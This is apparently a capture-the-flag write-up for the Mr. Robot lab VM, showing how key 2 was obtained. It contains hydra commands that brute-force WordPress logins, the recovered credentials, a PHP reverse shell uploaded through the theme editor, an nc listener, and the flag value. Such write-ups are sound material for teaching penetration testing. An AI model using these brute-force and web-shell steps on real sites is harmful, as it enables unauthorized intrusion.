








## MR.ROBOT  VM 

## Objective
Finding key 2

## Solution
from the previous result of nikto we know that there is a wpslogin.
let's open the login page in browser
type random username and pass and see how it respond.



so it says invalid username .so let's first find a valid user name .
we got a .dic file from robot.txt ,we will use it but first remove any duplicate contents to speedup the bruteforce attack.

```
sort fsocity.dic | uniq >fsocity1.dic
```
now brute force for username using hydra.

```

hydra -f -vV -L fsocity1.dic -p random 10.10.10.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'


```


-f= to stop when one match is found.
-L = username
-p = pass(any random password we are not interested in it)
-F=fail when response is Invalid username.so success when there is no Invalid username message.




result: username:elliot

let's try it on login page 
our previous "Invalid username" message is gone. 
now we will bruteforce using elliot as user and fsocity1.dic for password.


```

hydra -f -vV -l elliot -P fsocity1.dic 10.10.10.3 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'

```




** password is :ER28-0652  **

let login using credential's .success.

Now we need to gain a reverse shell . i am going to use php-reverse shell from pentest monkey.
we just need to find a way to upload this code after editing it with our ip(10.10.10.2).



first i tried to upload it through plugin by converting it to zip but it showed invalid plugin later after  searching it in appereance ->editor 404.php is there
i will use this to upload the php-reverse shell code.




after uploading open terminal

```
nc -nlvp 1234

```




got shell.

now let's search


```
cd /home
ls
cd robot
ls

```


there we got our key 2 but we don't have previlage to open it but we also got a  passw file 
using google to decode the md5 file.
result:   password:abcdefghijklmnopqrstuvwxyz

now login to vm using credentials

```
ls
cat key-2-of-3.txt
```


key2=822c73956184f694993bede3eb39f959


